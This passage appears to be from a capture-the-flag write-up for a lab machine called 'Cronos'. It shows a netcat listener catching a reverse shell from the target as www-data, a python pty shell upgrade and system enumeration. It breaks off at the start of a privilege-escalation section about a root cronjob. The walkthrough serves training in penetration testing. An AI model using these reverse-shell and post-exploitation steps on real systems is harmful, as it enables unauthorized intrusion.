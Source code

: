 We spawn a netcat listener:

```
# nc -nvlp 4444
listening on [any] 4444 ...

```

and we got shell:

```
listening on [any] 4444 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.10.13] 42690
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 19:13:27 up  1:51,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

We "upgrade" our shell:

```
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@cronos:/$

www-data@cronos:/$
```

Then we get some general info on machine:

```
www-data@cronos:/$ uname -ar
uname -ar
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
www-data@cronos:/$ lsb_release -a
lsb_release -a
No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 16.04.2 LTS
Release:        16.04
Codename:       xenial
www-data@cronos:/$ gcc
gcc
The program 'gcc' is currently not installed. To run 'gcc' please ask your administrator to install the package 'gcc'
```

### Privilege escalation

Since VM is called "Cronos", we focus on `crontab`, and we found a cronjobs which runs every minute with root privilege:
